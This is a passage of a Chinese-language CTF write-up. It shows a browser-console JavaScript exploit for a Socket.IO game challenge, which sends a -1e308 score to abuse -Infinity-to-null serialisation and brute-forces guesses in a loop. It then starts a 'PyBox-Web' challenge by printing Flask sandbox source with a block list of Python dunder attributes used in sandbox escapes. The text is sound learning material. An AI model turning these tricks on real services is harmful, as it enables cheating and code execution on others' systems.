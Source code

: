 ```js
socket = io();
//socket.emit('punishment-response', {
//  score: "-Infinity"
//});或者下面的
socket.emit('punishment-response', {
  score: -1e308
});
socket.emit('punishment-response', {
  score: -1e308
});
//猜对这里可二分法猜,手试二分法也ok,其实for循环爆也型
for(var i=0;i<100;i++)
 socket.emit('guess', {
   value: i
 });
 socket.on(
   'game-message',
   (data) => {
     console.log(data.message);
   });
```

塞控制台运行

这题的关键还是`Socket.IO`传输将`-Infinity`系列化为`null`，可能会有人卡在这懵逼

## PyBox-Web

进去直接给源码

```python
from flask import Flask, request, Response
import multiprocessing
import sys
import io
import ast

app = Flask(__name__)

class SandboxVisitor(ast.NodeVisitor):
    forbidden_attrs = {
        "__class__", "__dict__", "__bases__", "__mro__", "__subclasses__",
        "__globals__", "__code__", "__closure__", "__func__", "__self__",
        "__module__", "__import__", "__builtins__", "__base__"
    }
    def visit_Attribute(self, node):
        if isinstance(node.attr, str) and node.attr in self.forbidden_attrs:
            raise ValueError
        self.generic_visit(node)
    def visit_GeneratorExp(self, node):
        raise ValueError
def sandbox_executor(code, result_queue):
    safe_builtins = {
        "print": print,
        "filter": filter,
        "list": list,
        "len": len,
        "addaudithook": sys.addaudithook,
        "Exception": Exception
    }
    safe_globals = {"__builtins__": safe_builtins}

    sys.stdout = io.StringIO()
    sys.stderr = io.StringIO()
```